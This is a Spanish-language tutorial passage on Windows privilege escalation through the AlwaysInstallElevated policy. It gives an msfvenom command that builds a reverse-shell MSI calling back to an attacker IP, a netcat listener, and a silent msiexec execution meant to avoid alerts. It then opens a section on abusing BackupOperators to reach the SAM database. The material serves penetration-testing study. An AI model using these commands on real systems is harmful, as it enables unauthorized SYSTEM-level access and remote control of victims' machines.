 ###### Cómo funciona

Cuando la configuración **Always Install Elevated** está habilitada, ocurre lo siguiente:

1. **Elevación de Instalaciones**:
    - Los usuarios estándar pueden instalar aplicaciones sin necesidad de proporcionar credenciales de administrador. Esto permite que los paquetes MSI se ejecuten automáticamente con permisos administrativos.
2. **Bypass de UAC**:
    - El sistema no muestra el aviso de UAC, lo que reduce la visibilidad para el usuario y puede facilitar la instalación de software no autorizado o malicioso.

###### Explotación de Always Install Elevated: Creación y Ejecución de un MSI Malicioso

###### 1. Generar un Paquete MSI Malicioso

Para aprovechar esta política, podemos crear un paquete MSI malicioso para obtener una reverse shell hacia nuetro equipo de atacante. Esto se puede hacer utilizando `msfvenom`. En este ejemplo, configuramos el host local `LHOST` como `192.168.56.5` y el puerto local `LPORT` como `4444`.

El comando para generar el paquete MSI es:

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.56.5 LPORT=4444 -f msi > shell.msi
```

###### 2. Transferir el Archivo MSI al Objetivo

Una vez generado el archivo `shell.msi`, debemos transferirlo a la máquina objetivo. Podemos usar algunos métodos como:

- Compartir archivos (por ejemplo, a través de SMB).
- Subirlo a un servidor web y descargarlo en la máquina objetivo.
- Copiarlo directamente si tienes acceso físico o remoto.

###### 3. Configurar un Listener

El la máquina atacante nos ponemos en escucha con netcat por el puerto indicado, en este caso `4444`.

```bash
rlwrap nc -lnvp 4444
```

###### 4. Ejecutar el Paquete MSI en el Objetivo

En la máquina objetivo, ejecutamos el paquete MSI utilizando el comando `msiexec`. Para evitar alertas o interrupciones, usamos los parámetros `/quiet` y `/qn`, que ejecutan la instalación en modo silencioso:

```powershell
msiexec /i C:\temp\shell.msi /quiet /qn /norestart
```

##### BackupOperators - SeBackupPrivilege y SeRestorePrivilege

El grupo **BackupOperators** es un grupo integrado en Windows que otorga a sus miembros la capacidad de realizar copias de seguridad y restaurar archivos, incluso si no tienen permisos para acceder a esos archivos en circunstancias normales. Este privilegio hace que el grupo sea especialmente poderoso y potencialmente peligroso en escenarios de *escalación de privilegios*, ya que los miembros pueden acceder a archivos sensibles, como la base de datos **SAM (Security Account Manager)** y archivos del sistema, lo que podría permitirles obtener acceso de mayor nivel o incluso privilegios de *SYSTEM*.
